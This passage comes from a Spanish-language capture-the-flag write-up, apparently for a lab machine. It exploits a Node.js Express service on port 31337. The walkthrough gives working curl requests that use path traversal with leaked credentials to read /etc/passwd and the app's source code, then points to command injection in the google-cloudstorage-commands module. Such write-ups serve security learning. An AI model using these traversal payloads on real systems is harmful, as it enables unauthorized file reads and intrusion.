 ```null
curl -s -X POST -H "Content-Type: application/json" -d '{"auth":{"name":"felamos","password":"Winter2021"},"filename":"../../../../../../../etc/passwd"}' http://10.10.10.235:31337/todo | jq
```

Como se está autenticando contra el puerto 31337 que corresponde a ```Node.js```, tiene más sentido abrir el ```index.js```. Lo almaceno para inspeccionarlo al detalle

```null
cat portscan | grep 31337 | tail -n 1
31337/tcp open  http          Node.js Express framework
```

```null
curl -s -X POST -H "Content-Type: application/json" -d '{"auth":{"name":"felamos","password":"Winter2021"},"filename":"index.js"}' http://10.10.10.235:31337/todo | jq -r '.["content"]' > index.js
```

Están definidos dos usuarios

```null
const users = [
  {name: 'felamos', password: 'Winter2021'},
  {name: 'admin', password: Math.random().toString(32), canDelete: true, canUpload: true},
];
```

La contraseña del usuario Administrador es aleatoria, por lo que no puedo obtener su valor en texto claro. En caso de convertirme en él, puedo subir archivos a la máquina

```null
app.post('/upload', (req, res) => {
  const user = findUser(req.body.auth || {});
  if (!user || !user.canUpload) {
    res.status(403).send({ok: false, error: 'Access denied'});
    return;
  }
```

Lo compruebo tramitando la petición

```null
curl -s -X POST -H "Content-Type: application/json" -d '{"auth":{"name":"felamos","password":"Winter2021"},"filename":"index.js"}' http://10.10.10.235:31337/upload | jq
{
  "ok": false,
  "error": "Access denied"
}
```

Se está importando el módulo ```google-cloudstorage-commands```

```null
var root = require("google-cloudstorage-commands");
```

Para algunas versiones es posible inyectar comandos
